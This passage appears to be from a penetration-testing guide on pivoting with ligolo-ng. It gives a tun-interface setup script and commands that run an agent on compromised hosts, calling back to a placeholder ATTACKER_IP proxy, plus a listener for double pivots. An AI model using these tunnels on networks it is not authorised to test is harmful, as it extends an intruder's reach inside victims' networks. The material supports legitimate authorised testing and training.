 2. Setting up the ligolo-ng interface and IP routes.
- The initial step is to create a new interface and add an IP route to the subnet that we want to pivot to through this interface. We can easily do it through the following bash script.
```bash
#!/bin/bash

ip tuntap add user root mode tun ligolo
ip link set ligolo up
ip route add <x.x.x.x\24> dev ligolo
```

- We can then run the script by issuing the `chmod +x ligolo-ng_setup.sh && ./ligolo-ng_setup.sh`

3. Setting up the ligolo-ng proxy.
- After the interface has been setup, we can now start the ligolo-ng proxy. We can use any `<PROXY_PORT>` we want as long as it not already in use.
`./proxy -laddr <ATTACKER_IP>:<PROXY_PORT> -selfcert`

4. Using the ligolo-ng agent to connect to the ligolo-ng proxy.
- In the compromised computer we can use the agent to connect back to the proxy.
`./agent -connect <ATTACKER_IP>:<PROXY_PORT> -ignore-cert`

5. Start tunneling traffic through ligolo-ng.
- Once the connection from the agent reaches the proxy we can use the `session` command to list the available sessions.
- We can use the arrow keys to select the session we want and issue the command `start` to start tunnelling traffic through it.

6. Using local tools.
- After the tunneling has been initiated, we can use local offensive tools, such as CrackMapExec, Impacket, Nmap through the ligolo-ng network pivot without any kind of limitations or added lag (this is especially true for Nmap).

#### Double Pivot
1. Setting up a listener in the initial pivoting session.
- To start a double pivot, we have to make sure that the connection of the second agent will go through the **first** agent to avoid losing contact to our first pivot. To do so, we will have to create a _listener_ to the ligolo-ng session responsible for the first pivot.
- This command starts a listener to all the interfaces (`0.0.0.0`) of the **compromised**  host in port `4443` (we can replace it with any other port we want, as long as it is not already in use in the compromised initial pivot host). Any traffic that reaches this listener will be **redirected to the ligolo-ng** proxy (`--to <ATTACKER_IP>:<PROXY_PORT>`).
`listener_add --addr 0.0.0.0:4443 --to <ATTACKER_IP>:<PROXY_PORT> --tcp`

2. Starting te second agent. 
- After transferring the ligolo-ng agent to the **second** pivot host that we have compromised we will start a connection **not directly to our ligolo-ng proxy** but to the first pivoting agent.
`.\agent.exe -connect <1st_PIVOT_HOST_IP>:4443 -ignore-cert `

3. Starting the second pivot.
- In the ligolo-ng proxy we will receive a call from the second agent through the listener of the first agent. We can use the `session` command and the arrow keys to navigate through the created sessions. Issuing the `start` and `stop` commands we can tell the ligolo-ng proxy which session will be used for tunneling traffic.
